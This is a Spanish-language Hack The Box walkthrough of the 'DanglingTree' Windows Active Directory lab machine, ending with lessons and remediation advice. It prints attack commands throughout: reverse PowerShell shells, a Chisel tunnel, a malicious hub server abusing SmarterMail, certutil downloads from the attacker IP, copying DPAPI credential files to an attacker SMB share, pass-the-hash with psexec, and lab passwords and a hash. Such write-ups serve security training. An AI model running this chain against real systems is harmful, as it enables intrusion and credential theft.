

> [!info] Información de la máquina
> **Plataforma:** Hack The Box | **Máquina:** DanglingTree | **OS:** Windows | **Dificultad:** Medium | **IP objetivo:** `10.129.83.8` | **IP atacante:** `10.10.15.82`

---

## 1. Resumen

**DanglingTree** es una máquina Windows de dificultad Media que simula un entorno de Active Directory corporativo con un escenario de *insider threat*. La cadena de compromiso parte de la enumeración SMB sin autenticación para obtener un PDF con credenciales de dominio, acceso inicial a través de **Windows Admin Center** (puerto 6600) mediante inyección de un reverse shell PowerShell en una solicitud JSON interceptada con Burp Suite. Tras enumerar puertos internos, se levanta un túnel **Chisel** para pivotar hacia **SmarterMail** (puerto 17017), donde se abusa del endpoint `/api/v1/settings/sysadmin/connect-to-hub` para ejecutar un servidor Flask malicioso (`hub.py`) que sirve una respuesta JSON con un payload PowerShell codificado en Base64, obteniendo una segunda shell como `svc_mail`. La escalada horizontal a `noah.b` se logra desencriptando la contraseña cifrada de SmarterMail usando la propia DLL del servicio (`SmarterMail.Standard.dll`) mediante .NET Reflection. Finalmente, la escalada a **Administrador** se consigue mediante **DPAPI** — volcando el blob de credenciales y la master key del perfil de `noah.b` con `impacket-dpapi`, obteniendo las credenciales de `alex.o` y ejecutando Pass-the-Hash con `impacket-psexec` contra el DC.



---

## 2. Enumeración inicial

### 2.1 Configuración de `/etc/hosts`

Se agrega `danglingtree.htb` al archivo `/etc/hosts` para que la resolución de nombres funcione correctamente. La captura muestra el archivo de hosts con la entrada `10.129.83.8 danglingtree.htb` recién añadida, junto con las entradas de otras máquinas del reto.


---

### 2.2 Escaneo de puertos con Nmap

```bash
sudo nmap -sCV danglingtree.htb -oN scan
```

| Parámetro | Descripción |
|-----------|-------------|
| `sudo` | Privilegios elevados, necesarios para ciertos tipos de escaneo |
| `-sC` | Scripts NSE predeterminados para obtener información adicional |
| `-sV` | Detección de versiones de servicios |
| `danglingtree.htb` | Dominio objetivo (resuelve a `10.129.83.8`) |
| `-oN scan` | Guarda la salida en formato normal |

El primer escaneo revela que el objetivo es un **controlador de dominio Windows** con los puertos clásicos de AD abiertos: DNS (53), HTTP/IIS (80), Kerberos (88), RPC (135), NetBIOS (139), LDAP (389/636/3268/3269), HTTPS (443), microsoft-ds (445), kpasswd5 (464), RPC over HTTP (593), ms-wbt-server/RDP (3389). El certificado SSL expone el nombre del dominio: `danglingtree.htb` / `dc.danglingtree.htb`. También aparece el puerto **6600 con ssl/mshvlm**, correspondiente a **Windows Admin Center**.


---

### 2.3 Enumeración SMB y descarga de archivos

Se lista los recursos compartidos disponibles sin autenticación:

```bash
smbclient -L //danglingtree.htb
```

El servidor expone: `ADMIN$`, `C$`, `IPC$`, `NETLOGON`, `SYSVOL` (típicos de un DC) y el recurso **`IT`**, que resulta accesible sin credenciales. Dentro del share `IT` existe el directorio `Security` con el archivo `DanglingTree_RoE_Assessment.pdf`. Se descarga recursivamente con `recurse on / prompt OFF / mget *`.

La captura muestra ambas acciones: el listado de shares y la descarga exitosa del PDF desde `Security/DanglingTree_RoE_Assessment.pdf`.


---

## 3. Análisis del PDF — Credenciales iniciales

El PDF descargado (`DanglingTree_RoE_Assessment.pdf`) es un documento de **Rules of Engagement** para una evaluación de seguridad interna. La sección 3 "Provided Credentials" contiene una tabla con credenciales de dominio pre-aprovisionadas para el pentesting:

- **Domain:** `danglingtree.htb`
- **Username:** `anderson.w`
- **Password:** `R3dT3am@Acc3ss#01`
- **Account Type:** Standard Domain User (Low-Privileged)


---

## 4. Re-escaneo extendido (puertos 1–10000)

El escaneo inicial no listó todos los puertos. Se realiza un segundo escaneo más amplio:

```bash
sudo nmap -sCV -p 1-10000 danglingtree.htb -oN scan2
```

Este segundo escaneo confirma el puerto **6600** con el servicio `ssl/mshvlm` (Windows Admin Center). También se confirman los puertos internos de correo que serán el objetivo en la siguiente fase: **17017** (SmarterMail web), **5222** (XMPP), etc.


---

## 5. Acceso a Windows Admin Center y obtención de shell inicial

### 5.1 Login en Windows Admin Center

Navegando a `https://danglingtree.htb:6600` aparece el panel de **Windows Admin Center** — una interfaz de gestión remota de Microsoft. Se inicia sesión con las credenciales obtenidas del PDF (`anderson.w` / `R3dT3am@Acc3ss#01`).


### 5.2 Interceptación con Burp Suite e inyección del payload

Tras autenticarse en WAC, se activa Burp Suite en modo intercept. La interfaz de WAC envía solicitudes `POST` al endpoint `/api/services/WinREST/PowerShell/nodes/dc/invokeCommand` con un JSON que incluye un campo `script`. Se identifica la oportunidad de inyectar un reverse shell PowerShell en ese campo.

La captura de Burp muestra la solicitud POST interceptada con el menú contextual abierto en "Send to Repeater".


### 5.3 Reverse shell como `anderson.w`

Se inyecta el payload de reverse shell PowerShell en el campo `script` del JSON y se envía la petición. En paralelo se activa el listener `nc -lvnp 4444`.

La captura muestra simultáneamente Burp Repeater con la petición modificada (respuesta `200 OK`) y la terminal con la shell activa como `danglingtree\anderson.w` en `PS C:\Users\anderson.w\Documents>`.

```bash
nc -lvnp 4444
```


---

## 6. Enumeración interna y pivoting con Chisel

### 6.1 Puertos internos en escucha

Desde la shell de `anderson.w` se ejecuta `netstat -ano | findstr "LISTENING"` para identificar servicios que no están expuestos externamente. Se detectan puertos internos relevantes: **17017** (SmarterMail web), **5222** (XMPP/SmarterMail chat), **25** (SMTP), **110** (POP3), **143** (IMAP), **587** (SMTP submission).


### 6.2 Configuración del túnel Chisel

Se descarga Chisel en la máquina víctima y se establece un túnel reverso para redirigir los puertos internos del servidor hacia la máquina atacante:

```bash
# Atacante
chisel server -p 9001 --reverse

# Víctima
.\chisel.exe client TU_IP:9001 R:25:127.0.0.1:25 R:110:127.0.0.1:110 R:143:127.0.0.1:143 R:587:127.0.0.1:587 R:5222:127.0.0.1:5222 R:17017:127.0.0.1:17017
```

La captura muestra el servidor Chisel activo en Kali con dos sesiones establecidas (session#1 y session#2), con los túneles hacia los puertos de correo y SmarterMail confirmados como "Listening".


### 6.3 Acceso a SmarterMail

Con el túnel activo, se navega a `http://localhost.localdomain:17017/interface/root#/login`. Se usa `localhost.localdomain` en lugar de `127.0.0.1` porque los navegadores modernos omiten el proxy para direcciones loopback.

La captura muestra el panel de login de **SmarterMail** accesible localmente, con la pantalla de bienvenida y el formulario de credenciales, además de las DevTools del navegador mostrando el código fuente de la aplicación Angular.


---

## 7. Explotación de SmarterMail — Hub malicioso

### 7.1 Interceptar el login de SmarterMail con Burp

Se captura la solicitud de login de SmarterMail con Burp. La captura muestra dos peticiones en el historial: una a `danglingtree.htb:6600` (WAC) y otra `POST /api/v1/auth/authenticate-user` a `localhost.localdomain:17017`. Esto confirma que Burp puede interceptar el tráfico hacia SmarterMail a través del túnel.


### 7.2 Inyección en `/api/v1/settings/sysadmin/connect-to-hub`

Se envía una petición POST al endpoint de conexión a hub con los parámetros `hubAddress`, `oneTimePassword` y `nodeName`. La captura en Burp Repeater muestra la petición construida y la respuesta `400 Bad Request` con `"Encountered an exception"` — lo que confirma que el endpoint está procesando la solicitud (el hub aún no está levantado).

```http
POST /api/v1/settings/sysadmin/connect-to-hub HTTP/1.1
Host: localhost.localdomain:17017

{
    "hubAddress": "http://10.10.15.82:8081/",
    "oneTimePassword": "tepmst",
    "nodeName": "victim"
}
```


### 7.3 Servidor Flask malicioso (`hub.py`)

Se crea el payload PowerShell de reverse shell y se codifica en Base64 (UTF-16LE, formato que espera `powershell -enc`):

```bash
echo -n '$client = New-Object ...' | iconv -t UTF-16LE | base64 -w 0
```

La captura muestra la terminal ejecutando el comando de codificación Base64 del payload PowerShell, generando la cadena larga que se insertará en el PAYLOAD del servidor Flask.


Con el payload codificado se levanta el servidor Flask `hub.py` en el puerto 8081. Cuando SmarterMail se conecte al "hub", recibirá una respuesta JSON con `SystemMount.CommandMount` apuntando al payload, ejecutándolo en la máquina víctima.

### 7.4 Shell como `svc_mail`

Se activa el listener en el puerto 443 y se reenvía la petición de connect-to-hub desde Burp. La captura muestra el listener `nc -lvnp 443` recibiendo la conexión desde `10.129.83.8:63945` y la shell activa como `PS C:\Program Files (x86)\SmarterTools\SmarterMail\Service\Settings>`, confirmando ejecución como la cuenta de servicio `svc_mail`.

```bash
nc -lvnp 443
```


---

## 8. Escalada horizontal — Desencriptar contraseña de SmarterMail

### 8.1 Enumeración de usuarios y archivos de SmarterMail

Desde la shell de `svc_mail`, se navega al directorio de datos de SmarterMail. La captura muestra la lista de usuarios del dominio: `amelia.r`, `emma.s`, `liam.m`, **`noah.b`**, `oliver.t`, `sophia.k`, `svc_mail`. Se accede a `noah.b` y se lee su `settings.json`, que contiene el campo `password_encrypted` con el valor `66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby`.


### 8.2 Desencriptar con la DLL de SmarterMail

SmarterMail usa su propia lógica de cifrado en `SmarterMail.Standard.dll`. Se usa `ilspycmd` para descompilar la clase `CryptographyHelper` y entender el método `Decrypt`.

```bash
ilspycmd SmarterMail.Standard.dll -t SmarterMail.Standard.Utilities.CryptographyHelper
```

La captura muestra una herramienta (probablemente CyberChef o una utilidad online) con el input `66e7ppLOBF7UdzDv7zK6MJ1rmyUb1Cby` y el output desencriptado: **`RiverDragon#Storm25`**.


---

## 9. Obtención de shell como `noah.b` — User Flag

### 9.1 Descarga y uso de RunasCs

Se descarga `RunasCs.exe` en la máquina víctima mediante `certutil`:

```powershell
certutil -urlcache -split -f http://10.10.15.82:9090/RunasCs.exe C:\Users\svc_mail\documents\RunasCs.exe
```

La captura muestra la terminal con la shell de `svc_mail`, la navegación hasta `C:\SmarterMail\Domains\danglingtree.htb.bak\Users\noah.b>`, la carga de la DLL y la ejecución del método Decrypt. Luego muestra la descarga exitosa de `RunasCs.exe` con certutil (`CertUtil: -URLCache command completed successfully`).


### 9.2 Shell como `noah.b` y captura de `user.txt`

Con el listener activo en el puerto 5555:

```powershell
.\RunasCs.exe noah.b RiverDragon#Storm25 powershell -r 10.10.15.82:5555
```

La captura muestra la shell activa como `noah.b` en `PS C:\Users\noah.b\Desktop>` con el contenido de `user.txt` visible (hash de la flag de usuario).


---

## 10. Escalada de privilegios — DPAPI

### 10.1 Enumeración de información del usuario `noah.b`

Se ejecuta `whoami /all` para ver los grupos y privilegios del usuario `noah.b`. La captura muestra la información completa: SID `S-1-5-21-4220238332-57023728-1129110646-1602`, grupos de dominio y locales, y el nivel de integridad `Medium Mandatory Level`.


### 10.2 Localización de credenciales DPAPI

Se navega al directorio de credenciales de Windows. La captura muestra la exploración de `C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\` con los archivos `BK-DANGLINGTREE` (backup key), **`f53fcaba-f057-48e8-8f92-0180d274bf0f`** (master key) y `Preferred`. Luego muestra `C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\` con el blob de credenciales **`57FFB67D684C67F09E7153B9C7CC3940`**.


### 10.3 Blob de credenciales — identificación

La captura confirma el directorio `C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials` con un único archivo: `57FFB67D684C67F09E7153B9C7CC3940` (490 bytes, creado el 3/27/2026). Este es el blob DPAPI que contiene las credenciales cifradas almacenadas en el gestor de credenciales de Windows.


### 10.4 Exfiltración con SMB e impacket-dpapi

Se levanta un servidor SMB en Kali, se montan los recursos desde la víctima y se copian el blob de credenciales y la master key:

```bash
# Kali
impacket-smbserver share . -smb2support -username kali -password kali

# Víctima (PowerShell como noah.b)
net use \\10.10.15.82\share /user:kali kali
copy C:\Users\noah.b\AppData\Roaming\Microsoft\Credentials\57FFB67D684C67F09E7153B9C7CC3940 \\10.10.15.82\share
copy C:\Users\noah.b\AppData\Roaming\Microsoft\Protect\S-1-5-21-...\f53fcaba-f057-48e8-8f92-0180d274bf0f \\10.10.15.82\share
```

La captura muestra el directorio de trabajo de Kali con todos los archivos acumulados durante el ataque: el blob de credenciales, la master key, `chisel.exe`, `hub.py`, `RunasCs.exe`, `SmarterMail.Standard.dll` y los resultados de nmap. A continuación, se ejecuta `impacket-dpapi masterkey` con la SID y contraseña de `noah.b` para descifrar la master key (obteniendo el `Decrypted key`), y luego `impacket-dpapi credential` con esa clave para descifrar el blob, revelando las credenciales: **Username: `alex.o`** / **Password: `SunsetMountainPeak@2025`** / **Target: `PC01.danglingtree.htb`**.


### 10.5 Enumeración de Active Directory con BloodHound

Con las credenciales de `alex.o` se ejecuta BloodHound para mapear el dominio:

```bash
bloodhound-python -u 'alex.o@danglingtree.htb' -p 'SunsetMountainPeak@2025' -d danglingtree.htb -dc dc.danglingtree.htb
```

La captura muestra la ejecución exitosa de `bloodhound-python`: encuentra el dominio AD, 9 usuarios, 61 grupos, 2 GPOs, 19 contenedores. Finaliza generando el archivo ZIP con todos los datos del dominio (`20260826011252_bloodhound.zip`). Esto permite identificar que `alex.o` tiene permisos para realizar **DCSync** en el dominio.


---

## 11. Captura de la Root Flag — Pass-the-Hash

Con los permisos de `alex.o` (DCSync), se realiza un `secretsdump` para obtener los hashes NTLM del dominio, y luego Pass-the-Hash con `impacket-psexec`:

```bash
impacket-psexec -hashes aad3b435b51404eeaad3b435b51404ee:8cacb3a97e460c65d105ca7cd9913925 administrator@10.129.83.8
```

La captura muestra `impacket-psexec` obteniendo una shell SYSTEM en el DC: se navega a `C:\Users\Administrator\Desktop>` y se lee `root.txt` con el comando `type`, revelando el hash de la flag de root.


> [!success] Resultado
> **User Flag:** capturada ✅
> **Root Flag:** capturada ✅

---

## 12. Cadena completa de ataque

```text
SMB anónimo → IT/Security/DanglingTree_RoE.pdf
        ↓
Credenciales: anderson.w / R3dT3am@Acc3ss#01
        ↓
Windows Admin Center :6600 → Inyección PS en JSON → Shell anderson.w
        ↓
netstat → puertos internos (17017 SmarterMail, 5222, etc.)
        ↓
Chisel reverse tunnel → acceso a SmarterMail :17017
        ↓
POST /sysadmin/connect-to-hub → Flask hub.py malicioso
        ↓
Payload PS Base64 → Shell svc_mail
        ↓
SmarterMail.Standard.dll Decrypt → RiverDragon#Storm25 (noah.b)
        ↓
RunasCs → Shell noah.b → user.txt
        ↓
DPAPI: blob + master key → impacket-dpapi → alex.o / SunsetMountainPeak@2025
        ↓
BloodHound → alex.o tiene DCSync
        ↓
secretsdump → Hash Administrator
        ↓
impacket-psexec Pass-the-Hash → SYSTEM → root.txt
```

---

## 13. Conceptos aprendidos

- **SMB anónimo como vector de reconocimiento:** compartidos mal configurados (`IT`) pueden exponer documentos sensibles (RoE PDFs con credenciales) sin necesidad de autenticación.
- **Windows Admin Center como vector de RCE:** WAC ejecuta scripts PowerShell en el servidor; inyectar código en el campo `script` de la API JSON permite RCE autenticado.
- **Chisel para pivoting interno:** técnica estándar para redirigir tráfico desde puertos internos de la víctima hacia el atacante, evitando las restricciones de firewall de red.
- **SmarterMail Hub exploit:** el endpoint `connect-to-hub` de SmarterMail confía ciegamente en el servidor hub designado y ejecuta el `CommandMount` recibido, siendo un vector de RCE privilegiado.
- **Desencriptado de contraseñas de aplicación con Reflection:** usar la propia DLL de la aplicación (`[System.Reflection.Assembly]::LoadFile`) para invocar métodos privados de descifrado en tiempo de ejecución.
- **DPAPI credential theft:** las credenciales almacenadas en el gestor de Windows (`AppData\Roaming\Microsoft\Credentials`) pueden descifrarse offline si se tiene acceso al blob, la master key y la contraseña del usuario.
- **Pass-the-Hash con impacket-psexec:** con el hash NTLM del Administrador es posible obtener una shell SYSTEM sin conocer la contraseña en claro.

---

## 14. Lecciones de pentesting

> [!important] Lección 1 — Revisar shares SMB accesibles sin autenticación
> El share `IT` permitía acceso anónimo. Un documento de RoE con credenciales en producción es una brecha crítica. Los shares de red deben auditarse regularmente para verificar permisos.

> [!important] Lección 2 — Windows Admin Center expone ejecución de scripts
> WAC es una herramienta legítima pero potente. El acceso autenticado a WAC equivale a acceso de administrador al servidor. Debe estar protegido con MFA y acceso restringido por red.

> [!important] Lección 3 — Confiar en servidores externos en endpoints administrativos
> El endpoint `connect-to-hub` de SmarterMail ejecuta comandos arbitrarios del servidor hub. Las aplicaciones no deben ejecutar código recibido de servidores externos sin validación criptográfica del contenido.

> [!important] Lección 4 — Gestión segura de credenciales en aplicaciones
> SmarterMail almacena las contraseñas "cifradas" con una clave interna. Si el atacante tiene acceso a la DLL del servicio, puede invertir el cifrado. Las contraseñas deben almacenarse como hashes con salt, no cifradas reversiblemente.

> [!important] Lección 5 — DPAPI no es inviolable si el atacante tiene acceso al sistema de archivos
> Los blobs DPAPI pueden exfiltrarse y descifrarse offline con la master key y las credenciales del usuario. Las credenciales almacenadas en el gestor de Windows de un usuario comprometido son recuperables.

---

## 15. Remediación

- **SMB:** deshabilitar el acceso anónimo a shares; auditar permisos regularmente; nunca almacenar documentos con credenciales en shares de red.
- **WAC:** restringir acceso a WAC por IP/red interna; habilitar MFA; auditar logs de ejecución de scripts.
- **SmarterMail:** actualizar a la última versión; restringir el endpoint `connect-to-hub` a IPs de confianza; implementar validación de firma en las respuestas del hub.
- **Almacenamiento de contraseñas:** usar hashing con salt (bcrypt/Argon2) en lugar de cifrado reversible para contraseñas de usuario.
- **DPAPI:** monitorizar acceso a directorios `AppData\Roaming\Microsoft\Credentials` y `Protect`; rotar credenciales de usuarios comprometidos inmediatamente.
- **Hardening AD:** implementar tiering model; auditar permisos DCSync; alertar sobre uso de `secretsdump` o replicación DRSUAPI.

---

## 16. Resumen final

```text
1. Enumerar SMB → obtener PDF con credenciales anderson.w
2. Autenticarse en Windows Admin Center :6600
3. Burp: inyectar reverse shell PS en campo script del JSON → Shell anderson.w
4. netstat → identificar SmarterMail :17017 interno
5. Chisel: túnel reverso para acceder a SmarterMail
6. Burp: POST /sysadmin/connect-to-hub → apuntar a Flask hub.py malicioso
7. hub.py sirve JSON con CommandMount (payload PS Base64) → Shell svc_mail
8. Leer password_encrypted de noah.b en SmarterMail settings.json
9. Descifrar con SmarterMail.Standard.dll via Reflection → RiverDragon#Storm25
10. RunasCs → Shell noah.b → user.txt
11. Exfiltrar blob DPAPI y master key de noah.b via SMB
12. impacket-dpapi → descifrar credenciales alex.o
13. BloodHound → confirmar DCSync para alex.o
14. secretsdump → hash Administrator
15. impacket-psexec Pass-the-Hash → SYSTEM → root.txt
```

> [!success] Resultado
> **User Flag:** capturada ✅
> **Root Flag:** capturada ✅
> **Vector inicial:** SMB anónimo → credenciales en PDF → WAC RCE (PowerShell injection)
> **Escalada de privilegios:** DPAPI credential theft → DCSync → Pass-the-Hash
> **Servicio crítico:** SmarterMail `connect-to-hub` + DPAPI Windows Credential Manager